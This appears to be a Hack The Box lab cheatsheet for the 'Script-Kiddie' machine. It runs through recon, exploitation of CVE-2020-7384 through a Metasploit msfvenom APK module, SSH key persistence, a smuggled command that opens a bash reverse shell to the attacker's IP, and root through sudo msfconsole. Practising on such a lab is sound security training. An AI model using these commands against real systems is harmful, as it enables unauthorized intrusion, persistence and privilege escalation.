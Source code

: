 # HTB: Script-Kiddie — Command Cheatsheet

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scans/nmap-alltcp 10.10.10.226
```
- **Open Ports:**
  - 22 (SSH)
  - 5000 ([HTTP](HTTP) - Werkzeug server)

```bash
gobuster dir -u http://10.10.10.226:5000/ -w /usr/share/dirb/wordlists/small.txt
```

---

## 🕵️ Exploitation - CVE-2020-7384 (APK Template Injection)
### Description:
- Exploits `msfvenom` APK template injection vulnerability
- Vulnerable webapp allows APK creation with arbitrary commands

### Metasploit Module
```bash
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
- Set payload:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 10.10.14.6
set LPORT 9001
set SRVHOST 10.10.14.6
```
- Run:
```bash
exploit
```
- Upload APK via web UI ➝ get shell back

---

## ⚙️ Initial Foothold Shell
### Reverse Shell Upgrade
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=xterm-256color
```

### [SSH](SSH) Persistence (Optional)
```bash
mkdir ~/.ssh
echo "<your public key>" > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

---

## 👀 Enumeration - User Privilege Escalation
### Hacker Submission Injection
```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' # ." > logs/hackers
```
- Triggers a reverse shell as the next user

---

## 🔒 Root Privilege Escalation
### Sudo Permissions Check
```bash
sudo -l
```
- Allowed: `/opt/metasploit-framework-6.0.9/msfconsole` without password

### Exploit
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```
- Within msfconsole:
```bash
!bash
```
- Gain root shell

---

## 🔑 Flags
```bash
cat /home/kiddie/user.txt
cat /root/root.txt
```

---

## 📂 Resources
- [Exploit-DB CVE-2020-7384](https://www.exploit-db.com/exploits/49445)
- [Rapid7 Module: metasploit_msfvenom_apk_template_cmd_injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
